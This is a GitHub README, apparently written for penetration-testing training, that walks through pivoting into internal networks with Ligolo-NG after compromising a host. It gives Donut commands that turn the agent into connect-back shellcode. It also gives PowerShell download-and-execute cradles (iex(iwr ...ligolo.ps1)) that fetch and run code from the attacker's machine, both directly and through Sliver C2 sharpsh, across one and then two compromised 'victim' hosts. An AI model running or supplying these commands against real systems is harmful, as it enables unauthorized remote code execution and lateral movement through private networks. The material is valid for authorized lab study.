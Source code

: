 # Ligolo-NG (client) Agent
Ligolo-NG is a reliable way to get proxying to work in lab environments or for training. 

## Using Donut 
Making use of Donut by TheWover and will be used to wrap the Ligolo-ng agent binary (agent.exe) into position-independent shellcode, then execute the shellcode via sliver (or other shell interaction) to establish a new encrypted tunnel. 
Reference: https://github.com/TheWover/donut

note: Requires x64 bit process to run

```bash
┌──(kali㉿kali)-[~]
└─$ donut -f 1 -o agent.bin -a 2 -p "-connect <kaliIP>:11601 -ignore-cert" -i agent.exe
```

## Setup Ligolo-NG Server
Example Setup
```bash
# Compromised host is accessible via 192.168.243.0 network, want to access hosts on the internal 172.16.243.0 network
# Kali box is hosted on 192.168.45.0/24 and can communicate to 192.168.243.0/24 network
Eth0: 192.168.243.159
ETH1: 172.16.243.159

# Step 1 - Add Proxy TUN interface
┌──(kali㉿kali)-[~]
└─$ sudo ip tuntap add user kali mode tun ligolo
┌──(kali㉿kali)-[~]
└─$ sudo ip link set ligolo up

# Step 2 - Start Logilo-Proxy server
┌──(kali㉿kali)-[~]
└─$ ligolo-proxy -selfcert
```

## Setup Ligolo-NG Client Agents
This step will require you to transfer files to host or use powershell to run ligolo.ps1 shellcode runner (recommended)

### Using Ligolo through Shell
PS C:\Users\Public\Documents> iex(iwr http://192.168.45.173/ligolo.ps1 -UseBasicParsing)

### Using Ligolo with Sliver C2
To send request through sliver session via sharpsh
sliver (interactive) > sharpsh -- '-e -c <base64encoded>iex(iwr http://192.168.45.227/ligolo.ps1 -UseBasicParsing)'

## Setup Proxy
```bash
# Step 3 - Go to ligolo-proxy server console on kali and wait for Agent connection info will be displayed as such: 
ligolo-ng >> INFO [001] Agent Joined

# Step 4 - Select Agent session and select Enter
ligolo-ng >> session

# Step 5 - Confirm network interfaces with ifconfig
[AGENT : victim-1@sessionID] >> ifconfig

# Step 6 - Add IP Route of internal network to Kali host
┌──(kali㉿kali)-[~]
└─$ sudo ip route add 172.16.243.0/24 dev ligolo

# Step 7 - Start Ligolo-NG Server proxy
[AGENT : victim-1@sessionID] >> start

# can now nmap the IP Address of internal network without proxychains
┌──(kali㉿kali)-[~]
└─$ nmap -sn 172.16.243.150-155 -vv
```

## Setup additional hop to a secondary network
It should be noted, that C2 Agent Pivots should be used here instead of using ligolo-ng tunneling to communicate with the other networks. 

Example Setup
```bash
# Compromised host is accessible via 192.168.243.0 network, want to access hosts on the internal 172.16.243.0 network
# Victim 1
Eth0: 192.168.243.159
ETH1: 172.16.243.159 # IP used to forward traffic to Kali

# Victim 2
ETH0: 172.16.243.150
ETH1: 10.10.3.1

# Step 1 - Add Proxy TUN interface
┌──(kali㉿kali)-[~]
└─$ sudo ip tuntap add user kali mode tun Ligolo-2ndHost
┌──(kali㉿kali)-[~]
└─$ sudo ip link set ligolo-2ndHost up

# Step 2 - Start a listener on Host 1 (Victim 1)
[AGENT : victim-1@sessionID] listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

# Step 3 - Generate new agent-2.bin donut shellcode 
┌──(kali㉿kali)-[~]
└─$ donut -f 1 -o agent-2.bin -a 2 -p "-connect 172.16.243.159:11601 -ignore-cert" -i agent.exe

# Step 4 - Update ligolo.ps1 (line 14) to agent-2.bin

# Step 5 - Run the donut nigolo-ng agent from Victim 2 machine 
sliver (interactive) > sharpsh -- '-e -c <base64encoded>iex(iwr http://192.168.45.227/ligolo.ps1 -UseBasicParsing)'

# Step 6 - Wait for agent to connect to Ligolo-NG Server console and select Victim-2 session
ligolo-ng >> session

# Step 7 - Start Tunnel
[Agent : victim-2@sessionID] >> tunnel_start -tun ligolo-2ndHost

# Step 8 - Add IP route to 10.10.3.0/24 network
┌──(kali㉿kali)-[~]
└─$ sudo ip add route 10.10.3.0/24 dev ligolo-ligolo-2ndHost
```

# References
Ligolo-NG How-To Guide https://www.stationx.net/how-to-use-ligolo-ng/
Code Repository Source https://github.com/Extravenger/OSEPlayground/tree/main/04%20-%20Tunneling